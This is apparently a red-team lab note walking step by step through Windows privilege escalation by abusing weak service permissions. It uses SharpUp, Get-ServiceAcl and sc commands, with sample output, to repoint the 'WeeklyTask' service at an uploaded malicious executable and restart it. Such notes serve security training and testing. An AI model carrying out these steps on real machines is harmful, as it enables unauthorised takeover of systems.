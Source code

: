 - Unquoted Service Paths

- Weak Service Permissions

### Step 1: Identify Modifiable Services:<br>

  `C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices`

### Step 2: Check Service Permissions:<br>
  `powershell-import C:\Tools\Get-ServiceAcl.ps1`
  `powershell Get-ServiceAcl -Name WeeklyTask | select -expand Access`

"
ServiceRights     : ChangeConfig, Start, Stop<br>
AccessControlType : AccessAllowed<br>
IdentityReference : NT AUTHORITY\Authenticated Users<br>
IsInherited       : False<br>
InheritanceFlags  : None<br>
PropagationFlags  : None<br>
"

### Step 3: Validate Current Binary Path:
  `sc qc WeeklyTask`

"
BINARY_PATH_NAME   : "C:\Program Files\Services\Update.exe"
"
We have successfully displayed the current path of the WeeklyTask service.

### Step 4: Upload Malicious Payload:
  Next, we upload a malicious payload to the system that we will configure the service to execute. We’ll place our payload in a temporary directory.

### Step 5: Change the Service's Binary Path
  Now that we have our payload uploaded, we can change the service's binary path to point to our malicious executable.

`sc config WeeklyTask binPath= C:\Temp\Teams.exe`

### Step 6: Stop and Start the Service
`run sc stop WeeklyTask`
`run sc start WeeklyTask`

